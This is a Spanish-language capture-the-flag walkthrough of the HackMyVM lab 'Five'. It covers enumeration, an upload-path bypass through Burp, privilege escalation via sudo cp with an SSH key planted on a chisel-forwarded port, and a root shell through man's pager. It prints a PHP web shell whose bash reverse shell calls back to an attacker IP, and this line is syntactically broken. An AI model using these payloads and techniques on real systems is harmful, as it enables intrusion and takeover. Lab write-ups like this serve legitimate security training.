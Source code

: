 ```yaml
---
title: HackMyVm - Five + (AutoPwn)
published: true
---
```


---

> Laboratorio de la página [HackMyVm](https://hackmyvm.eu/)


### Enumeración

Inicio con un escaneo de **nmap** para ver puertos abiertos y enumerarlos.

![](https://eidd3.github.io/assets/img/Five/nmap.png)

* Puerto 80 - HTTP

![](https://eidd3.github.io/assets/img/Five/nmap2.png)

El archivo _robots.txt_ muestra que el directorio _/admin_ existe en la página.

Enumero un poco más con el script _http-enum_ de **nmap**.

![](https://eidd3.github.io/assets/img/Five/httpenum.png)

Y muestra algo parecido a lo anterior y un _index.html_ en el directorio _/admin/_.

Si ingreso a esa dirección veo un panel de autenticación.

![](https://eidd3.github.io/assets/img/Five/indexhtml.png)

Intento un inicio de sesión para ver la petición, y lo hace a **action_page.php**, por lo que ahora sé que la página usa **PHP**.

![](https://eidd3.github.io/assets/img/Five/requestheaders.png)

![](https://eidd3.github.io/assets/img/Five/wronguserpass.png)

Intenté convinaciones básicas admin:admin, root:root, etc., algunas inyecciones SQL pero nada. Sin algún nombre de usuario no iba a intentar fuerza bruta, por lo que seguí enumerando un poco más.

Con un escaneo de **dirsearch** veo algunas cosas más.

![](https://eidd3.github.io/assets/img/Five/dirsearch.png)

Un archivo **upload.php**. uno **upload.php** y un directorio **uploads** donde supongo que se suben los archivos.

![](https://eidd3.github.io/assets/img/Five/uploadhtml.png)

Primero, veo si funciona subiendo un **.txt**.

El mensaje al subir es: `The file test.txt has been uploaded.`

Y si ingreso al directorio **uploads** veo que sí me dejó.

![](https://eidd3.github.io/assets/img/Five/testtxt.png)

Sabiendo de antes que usa **PHP**, intento subir una web shell, pero al ingresar al archivo no lo interpreta; lo descarga.

En este punto intenté con distintas extensiones como **phar**, **php4**, **php5**, **phtml**, etc., pero ninguna funcionó.

Por lo que abrí **burpsuite** para ver cómo era la solicitud de subida del archivo.

![](https://eidd3.github.io/assets/img/Five/burpsuite.png)

Y se ve que en la solicitud se decide que el contenido se almacene en el directorio _uploads_, por lo que intento cambiar a donde se sube el archivo, borrando ese campo para subirlo a la raíz de la web.

![](https://eidd3.github.io/assets/img/Five/burpsuite2.png)

![](https://eidd3.github.io/assets/img/Five/test2.png)

Y funcionó. Ahora intento con un archivo **PHP** para obtener una shell en el sistema.

_shell.php_:

```php
<?php system(bash -c 'bash -i >& /dev/tcp/192.168.1.34/443 0>&1'); ?>
```

![](https://eidd3.github.io/assets/img/Five/wwdatash.gif)

---

#### **AutoPwn**

* [Scipit](https://github.com/eidd3/Autopwn-Scripts/blob/main/Autopwn%20Five) en python para obtener una shell como **www-data**.

![](https://eidd3.github.io/assets/img/Five/autopwn.gif)

---

### Elevando privilegios.

Viendo el sistema, veo el directorio de **melisa**, que parece que hay que elevar privilegios a ese usuario antes de **root**.

Si hago `sudo -l` para ver si tengo privilegios para hacer algo, veo que puedo ejecutar _/bin/cp_ como el usuario **melisa**.

![](https://eidd3.github.io/assets/img/Five/sudo-l.png)

Se me ocurre subir mi clave pública como authorized_keys al directorio .shh de **melisa**, pero me acuerdo que el puerto **22** no está abierto.

Viendo puerto internos de la máquina veo que el 4444 está operativo y es un servicio **SSH**. 

![](https://eidd3.github.io/assets/img/Five/internalport.png)

Así que ahora sí podría tratar de crear mi clave pública con _ssh-keygen_ para después usar el privilegio _/bin/cp_ para almacenarla en el directorio .ssh de **melisa**. Luego, usando chisel, hacer un port forwarding y conectarme como **melisa** sin proporcionar contraseña.

![](https://eidd3.github.io/assets/img/Five/chiselssh.gif)

### Root

Viendo los privilegios que puedo ejecutar como root, hay varios comandos que puedo usar.

![](https://eidd3.github.io/assets/img/Five/sudo-lroot.png)

Y el más interesante es **man**, que al poder ejecutarlo como root, se puede especificar el parámetro **-P** para que use _less_ como visor. Al usar less, se puede aprovechar para ejecutar ejecutar "subprocesos", algo que sin especificar el parámetro **PAGER** no se podría, ya que normamente **man** usa _more_ o un visor más simple.

![](https://eidd3.github.io/assets/img/Five/root.gif)

